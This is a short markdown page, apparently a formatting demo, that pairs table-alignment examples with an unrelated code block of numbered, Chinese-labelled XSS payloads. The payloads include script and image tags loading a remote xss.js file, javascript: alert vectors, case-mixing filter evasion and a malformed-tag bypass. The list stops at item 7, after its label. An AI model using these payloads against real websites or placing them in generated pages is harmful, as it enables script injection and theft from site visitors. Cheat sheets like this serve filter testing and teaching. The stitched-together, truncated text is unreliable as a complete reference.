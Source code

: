 

## Tables and alignment

First Header | Second Header
------------ | -------------
Content from cell 1 | Content from cell 2
Content in the first column | Content in the second column

| Left-Aligned  | Center Aligned  | Right Aligned |
| :------------ |:---------------:| -----:|
| col 3 is      | some wordy text | $1600 |
| col 2 is      | centered        |   $12 |


```
(1)普通的XSS JavaScript注入

<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>
(2)IMG标签XSS使用JavaScript命令

<IMG SRC=http://3w.org/XSS/xss.js/>
(3)IMG标签无分号无引号

<IMG SRC=javascript:alert('XSS')>
(4)IMG标签大小写不敏感

<IMG SRC=JaVaScRiPt:alert('XSS')>
(5)HTML编码(必须有分号)

<IMG SRC=javascript:alert("XSS")>
(6)修正缺陷IMG标签

<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
(7)formCharCode标签(计算器)
```
